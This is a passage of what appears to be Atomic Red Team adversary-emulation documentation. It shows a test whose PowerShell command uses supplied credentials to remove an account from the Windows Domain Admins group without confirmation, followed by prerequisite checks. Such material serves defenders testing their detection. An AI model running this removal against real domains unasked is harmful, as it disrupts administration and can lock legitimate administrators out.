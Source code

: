 ## Atomic Test #3 - Remove Account From Domain Admin Group

This test will remove an account from the domain admins group

**Supported Platforms:** Windows

**auto_generated_guid:** 43f71395-6c37-498e-ab17-897d814a0947

#### Inputs:

| Name        | Description                                                      | Type   | Default Value         |
| ----------- | ---------------------------------------------------------------- | ------ | --------------------- |
| super_user  | Account used to run the execution command (must include domain). | string | domain&#92;super_user |
| super_pass  | super_user account password.                                     | string | password              |
| remove_user | Account to remove from domain admins.                            | string | remove_user           |

#### Attack Commands: Run with `powershell`!

```powershell
$PWord = ConvertTo-SecureString -String #{super_pass} -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList #{super_user}, $PWord
if((Get-ADUser #{remove_user} -Properties memberof).memberof -like "CN=Domain Admins*"){
  Remove-ADGroupMember -Identity "Domain Admins" -Members #{remove_user} -Credential $Credential -Confirm:$False
} else{
    write-host "Error - Make sure #{remove_user} is in the domain admins group" -foregroundcolor Red
}
```

#### Dependencies: Run with `powershell`!

##### Description: Requires the Active Directory module for powershell to be installed.

##### Check Prereq Commands:

```powershell
if(Get-Module -ListAvailable -Name ActiveDirectory) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Add-WindowsCapability -Online -Name "Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0"
```

<br/>
<br/>

## Atomic Test #4 - Change User Password via passwd
